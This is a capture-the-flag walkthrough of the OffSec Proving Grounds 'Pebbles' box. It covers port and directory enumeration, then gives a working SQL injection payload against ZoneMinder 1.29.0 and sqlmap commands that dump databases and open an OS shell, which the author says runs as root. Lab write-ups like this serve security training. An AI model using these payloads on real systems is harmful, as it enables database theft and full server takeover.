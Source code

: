 # Pebbles

## Introduction

Pebbles is a 'warm up' category linux box on offsec proving grounds.  

## Enumeration

### Nmap

Nmap scan of all tcp ports.  

```
21/tcp   open  ftp     syn-ack ttl 61 vsftpd 3.0.3
22/tcp   open  ssh     syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
3305/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
8080/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
```

### Searchsploit

vsftpd 3.0.3    remote DoS  
OpenSSH 7.2p2   username enumeration  

### HTTP 80

Directory scanning with common.txt  

```
/cgi-bin                                                                                                                                                              
/css                                                                                                                                                                         
/images                                                                                                                                                                      
/index.php                                                                                                                                                            
/javascript                                                                                                                                                                  
/server-status
 ```

Directory scanning with raft large.  

`\zm`

Zoneminder console version.  

`1.29.0`

Searchsploit research finds ZoneMinder 1.29.0 is vulnerable to sql injection.  

## SQL injection (port 80)

The following command is PoC of a sql injection.  

`curl -X POST -d 'view=request&request=log&task=query&limit=100;(SELECT * FROM (SELECT(SLEEP(5)))OQkj)#&minTime=1466674406.084434' http://192.168.241.52/zm/index.php`

Dump database with sqlmap.  

`sqlmap --url http://192.168.241.52/zm/index.php --method POST --data 'view=request&request=log&task=query&limit=100&minTime=1466674406.084434' -p limit --dbs --columns`

Databases.  

```
information_schema
mysql
performance_schema
sys
zm
```

## Root

Sqlmap returns a root user shell.  

`sqlmap --url http://<ip>/zm/index.php --method POST --data 'view=request&request=log&task=query&limit=100&minTime=1466674406.084434' -p limit --os-shell` 
